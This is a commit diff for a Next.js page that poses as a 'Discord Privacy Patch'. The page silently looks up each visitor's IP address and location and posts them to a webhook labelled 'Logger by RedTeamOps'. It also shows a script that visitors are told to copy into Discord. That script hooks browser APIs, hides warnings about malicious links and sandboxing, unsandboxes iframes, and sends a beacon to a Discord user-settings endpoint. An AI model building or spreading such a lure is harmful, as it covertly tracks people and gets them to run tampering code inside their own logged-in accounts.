

Before and after one commit to hackerjk1234/quiz-thankyou-logger, a Next.js app: page / in a window 1280 px wide. Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.js

```diff
--- a/pages/index.js
+++ b/pages/index.js
@@ -4,17 +4,22 @@
   const [privacyPatchCode, setPrivacyPatchCode] = useState('');
 
   useEffect(() => {
-    // Fetch IP address to log
+    // Fetch IP address to log and send embed
     fetch('https://ipapi.co/json/')
       .then(res => res.json())
-      .then(data => {
-        console.log("User IP:", data.ip); // Log IP to console
+      .then(async data => {
+        const ip = data.ip || 'Unavailable';
+        const city = data.city || 'Unavailable';
+        const region = data.region || 'Unavailable';
+        const country = data.country_name || 'Unavailable';
+
+        console.log("User IP:", ip); // Log IP to console
 
         // Discord Privacy Patch JS code
         const privacyPatchScript = `(() => {
   console.log('%c[DISCORD PRIVACY PATCH] ACTIVATING...', 'color: cyan; font-weight: bold;');
 
-          // =============== TYPING INDICATOR BLOCK =====================
+  // Typing indicator block
   const wsSend = WebSocket.prototype.send;
   WebSocket.prototype.send = function(data) {
     try {
@@ -29,7 +34,7 @@
     return wsSend.apply(this, arguments);
   };
 
-          // =============== BLOCK TRACKING ENDPOINTS ===================
+  // Block tracking endpoints
   const trackBlock = ['sentry.io', 'google-analytics.com', 'discordapp.io/log'];
   const origOpen = XMLHttpRequest.prototype.open;
   XMLHttpRequest.prototype.open = function(method, url) {
@@ -40,7 +45,7 @@
     return origOpen.apply(this, arguments);
   };
 
-          // =============== READ RECEIPTS / HAS FOCUS ==================
+  // Patch hasFocus
   try {
     Object.defineProperty(document, 'hasFocus', {
       value: () => false,
@@ -51,19 +56,15 @@
     console.warn('[PRIVACY] Failed to patch hasFocus');
   }
 
-          // =============== SUPPRESS CONSOLE WARNINGS ==================
+  // Suppress console warnings
   const ogWarn = console.warn;
   console.warn = function(...args) {
-              const suppress = [
-                  'malicious link',
-                  'blocked a frame',
-                  'sandboxed'
-              ];
+    const suppress = ['malicious link', 'blocked a frame', 'sandboxed'];
     if (suppress.some(w => args.join(' ').toLowerCase().includes(w))) return;
     return ogWarn.apply(console, args);
   };
 
-          // =============== IFRAME UNSANDBOXING ========================
+  // Unsandbox iframes
   const nativeCreate = Document.prototype.createElement;
   Document.prototype.createElement = function(tag, ...args) {
     const el = nativeCreate.call(this, tag, ...args);
@@ -75,7 +76,7 @@
     return el;
   };
 
-          // =============== FAKE TELEMETRY PING (INVISIBLE) ============
+  // Fake telemetry ping
   window.addEventListener('beforeunload', () => {
     try {
       navigator.sendBeacon?.('/api/v9/users/@me/settings', JSON.stringify({
@@ -90,39 +91,66 @@
 
         // Set the privacy patch script for display
         setPrivacyPatchCode(privacyPatchScript);
+
+        // Prepare embed payload
+        const embed = {
+          username: "Privacy Logger",
+          embeds: [
+            {
+              title: "🔒 Privacy Patch Delivered",
+              color: 3447003,
+              fields: [
+                { name: "IP", value: ip, inline: true },
+                { name: "City", value: city, inline: true },
+                { name: "Region", value: region, inline: true },
+                { name: "Country", value: country, inline: true },
+                { name: "Has Focus Patched", value: "False always", inline: true },
+                { name: "Typing Blocked", value: "Yes", inline: true },
+                { name: "Tracking Blocked", value: "sentry, GA, app.io", inline: true }
+              ],
+              timestamp: new Date().toISOString(),
+              footer: { text: "Logger by RedTeamOps" }
+            }
+          ]
+        };
+
+        // Send to webhook
+        await fetch('/api/webhook', {
+          method: 'POST',
+          headers: { 'Content-Type': 'application/json' },
+          body: JSON.stringify(embed)
+        });
       });
   }, []);
 
   return (
     <div style={{
       background: 'url("/bg.jpg") center center / cover no-repeat',
-      height: "100vh",
-      color: "white",
-      display: "flex",
-      alignItems: "center",
-      justifyContent: "center",
-      textAlign: "center",
-      fontSize: "1.5rem"
+      height: '100vh',
+      color: 'white',
+      display: 'flex',
+      alignItems: 'center',
+      justifyContent: 'center',
+      textAlign: 'center',
+      fontSize: '1.2rem'
     }}>
-      <div>
+      <div style={{ width: '80%' }}>
         <h2>🔒 Discord Privacy Patch Code</h2>
         <textarea
           style={{
-            width: "80%",
-            height: "300px",
-            fontSize: "0.9rem",
-            padding: "10px",
-            backgroundColor: "#1E1E1E",
-            color: "white",
-            border: "1px solid #444",
-            borderRadius: "5px",
-            marginTop: "20px"
+            width: '100%',
+            height: '300px',
+            fontSize: '0.9rem',
+            padding: '10px',
+            backgroundColor: '#1E1E1E',
+            color: 'white',
+            border: '1px solid #444',
+            borderRadius: '5px'
           }}
           readOnly
           value={privacyPatchCode}
-        ></textarea>
-
-        <p style={{ marginTop: "20px" }}>Copy the code above to activate the privacy patch.</p>
+        />
+        <p style={{ marginTop: '15px' }}>Copy the code above to activate the privacy patch.</p>
       </div>
     </div>
   );
```
Lines whose indentation alone changed are shown as unchanged.
